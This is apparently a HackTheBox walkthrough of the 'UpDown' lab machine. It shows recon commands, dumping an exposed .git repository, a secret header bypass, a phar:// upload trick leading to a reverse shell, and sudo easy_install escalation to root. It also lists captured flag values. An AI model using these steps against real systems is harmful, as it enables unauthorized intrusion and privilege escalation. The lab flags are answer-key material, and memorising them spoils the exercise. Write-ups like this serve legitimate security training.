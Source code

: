 ![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/31f4dd61-f10a-4b92-87af-4b87a23f6923)### 2024-04-21-Sun

[UpDown | HackTheBox](https://app.hackthebox.com/machines/UpDown)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/6c0b68bd-1f9b-47f6-bf57-f7d70ff824ea)

## About UpDown

UpDown is a medium difficulty Linux machine with SSH and Apache servers exposed. 
On the Apache server a web application is featured that allows users to check if a webpage is up. 
A directory named `.git` is identified on the server and can be downloaded to reveal the source code of the `dev` subdomain running on the target, 
which can only be accessed with a special `HTTP` header. 
Furthermore, the subdomain allows files to be uploaded, leading to remote code execution using the `phar://` PHP wrapper. 
The Pivot consists of injecting code into a `SUID` `Python` script and obtaining a shell as the `developer` user, 
who may run `easy_install` with `Sudo`, without a password. 
This can be leveraged by creating a malicious python script and running `easy_install` on it, as the elevated privileges are not dropped, 
allowing us to maintain access as `root`.

```
nmap -sC -sV -p- --open -Pn 10.129.227.227 -oN nmap.txt
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1f3f36bd-2068-4335-911a-0d0eb617c0f3)

http://10.129.227.227/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ac1722c8-3d03-4d6b-bcbb-558e49f0be72)

http://10.129.227.227/dev/

http://10.129.227.227/dev/.git/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c09f4854-5916-4e20-bc02-ffb0f07e52b7)

```
wget -c http://10.129.227.227/dev/.git/config
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7ffc80d8-aa30-4fb8-8773-049029dad000)

```
[core]
	repositoryformatversion = 0
	filemode = false
	bare = false
	logallrefupdates = true
	symlinks = false
	ignorecase = true
[remote "origin"]
	url = https://127.0.0.1/siteisup.htb/siteisup
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

http://10.129.227.227/dev/.git/logs/HEAD

```
0000000000000000000000000000000000000000 010dcc30cc1e89344e2bdbd3064f61c772d89a34 root <root@siteisup.(none)> 1634755213 -0400	clone: from https://127.0.0.1/siteisup.htb/siteisup
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9cd2c8b0-2d2b-4112-b8e2-c43cc69c0296)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/cac23f51-0100-4b19-a69a-bfab40cb7e46)

```
echo "10.129.227.227 siteisup.htb" | sudo tee -a /etc/hosts
```

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://siteisup.htb -c -ac -H "HOST: FUZZ.siteisup.htb"
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9270549c-011f-4d4a-a03a-638e5fa59b15)

http://dev.siteisup.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a367e461-57a2-436c-9c1c-9abc0dc3ec60)

https://github.com/arthaud/git-dumper

```
./git_dumper.py http://siteisup.htb/dev/.git dev
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/60988927-356f-401f-b518-c4c417546d08)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/efbb7ec6-5f1c-4866-945f-616f478ce25a)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c3de562b-48f2-4b29-b76c-54462ac7b9cb)

https://youtu.be/zYn4o85crdY
https://www.youtube.com/@noxlumens

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/87b0db09-067f-47d7-8a6e-e11fbe25e283)

```
HTTP/1.1 301 Moved Permanently
Date: Mon, 22 Apr 2024 10:17:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://127.0.0.1/dev/.git/
Content-Length: 309
Content-Type: text/html; charset=iso-8859-1

HTTP/1.1 200 OK
Date: Mon, 22 Apr 2024 10:17:56 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2881
Content-Type: text/html;charset=UTF-8

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /dev/.git</title>
 </head>
 <body>
<h1>Index of /dev/.git</h1>
  <table>
   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/dev/">Parent Directory</a></td><td> </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="HEAD">HEAD</a></td><td align="right">2021-10-20 19:40  </td><td align="right"> 21 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="branches/">branches/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="config">config</a></td><td align="right">2021-10-20 19:42  </td><td align="right">298 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="description">description</a></td><td align="right">2021-10-20 19:40  </td><td align="right"> 73 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="hooks/">hooks/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="index">index</a></td><td align="right">2021-10-20 19:42  </td><td align="right">521 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="info/">info/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="logs/">logs/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="objects/">objects/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="packed-refs">packed-refs</a></td><td align="right">2021-10-20 19:40  </td><td align="right">112 </td><td> </td></tr>
<tr><td valign="top"><img src="/icons/folder.gif" alt="[DIR]"></td><td><a href="refs/">refs/</a></td><td align="right">2021-10-20 19:40  </td><td align="right">  - </td><td> </td></tr>
   <tr><th colspan="5"><hr></th></tr>
</table>
<address>Apache/2.4.41 (Ubuntu) Server at 127.0.0.1 Port 80</address>
</body></html>
```

**.htaccess**

```
SetEnvIfNoCase Special-Dev "only4dev" Required-Header
Order Deny,Allow
Deny from All
Allow from env=Required-Header
```

http://dev.siteisup.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/35b08f82-7a8a-4aee-b3c7-8dbc461b2331)

http://dev.siteisup.htb/?page=admin

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/50f17969-7e40-4f8e-adcd-f98e28b9e7a0)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d111c37a-8239-4848-84b1-ca1a5bd6637d)

```
echo "<?php phpinfo(); ?>" > info.php
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/20e38da3-3fd2-44b5-985a-5b2099a0b106)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/db0739c0-fdeb-4a70-ab7f-9b987345132d)

```
zip rev.zip rev.php
mv rev.zip rev.txt
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/290b5b9a-4f7f-4bb2-ba95-2c8b97f7b980)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fbf8fde7-78e6-4344-bfd1-69dbfa297cea)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c2efd06c-55d4-46da-b8f6-bea68fef8f20)

http://dev.siteisup.htb/?page=phar://uploads/0c7b9a04adf7c378d59a2975c90826f4/rev.txt/rev

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9566a673-3f72-41f8-9bfb-9f9e0657915b)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a6542c6b-9e23-4800-9f3b-005c999d3349)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/31e10159-3b5f-44eb-80ed-2ba316b045c4)

```
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
        print "Website is up"
else:
        print "Website is down"
```

```
cat /etc/passwd | grep -v -e false -e nologin -e sync
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/89f49cef-eeb1-4339-ae79-de67cf1ec5bf)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/25330d11-318c-4d9b-b2c9-2b09215f6400)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b49f7be6-7834-4059-b58c-a4566ae20150)

```
edebe49b03026e348c81e3bc1e962ede
```

```
sudo -l
```

/usr/local/bin/easy_install

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/08977505-ec55-4318-a15e-318dfd4c69c6)

https://gtfobins.github.io/easy_install

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/287258a3-c881-4d44-b32b-75b6528ccd3e)

```
f019569e0d9073f2d1512c89a8c0c7bf
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c673f38d-c623-4114-95ae-c5df34b1b81d)
